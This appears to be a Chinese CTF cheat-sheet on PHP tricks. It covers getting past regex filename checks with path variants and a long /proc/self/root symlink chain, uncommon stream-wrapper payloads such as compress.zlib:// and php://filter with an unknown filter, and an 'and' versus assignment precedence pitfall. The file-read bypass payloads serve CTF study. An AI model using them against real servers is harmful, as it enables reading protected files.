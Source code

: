 通过绝对路径/相对路径绕过正则对文件名的检测, 例如 `preg_match('/flag.php/', $str)`

```
./flag.php
./ctfshow/../flag.php
/var/www/html/flag.php
```

利用 Linux 下的软链接绕过

https://www.anquanke.com/post/id/213235

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```

## 伪协议

[https://www.php.net/manual/zh/wrappers.php](https://www.php.net/manual/zh/wrappers.php)

常见的 php://filter php://input data:// 都很熟悉了

下面是一些不是很常见的 payload

```php
compress.zlib://flag.php
php://filter/ctfshow/resource=flag.php
```

php://filter 遇到不存在的过滤器会直接跳过, 可以绕过一些对关键字的检测

## 运算符优先级

[https://www.php.net/manual/zh/language.operators.precedence.php](https://www.php.net/manual/zh/language.operators.precedence.php)

例如

```php
$v0 = is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

实际上是先赋值

```php
$v0 = is_numeric($v1)
```

然后是这种奇怪的形式

```php
$v0 and is_numeric($v2) and is_numeric($v3);
```

&& 和 || 的顺序也要注意
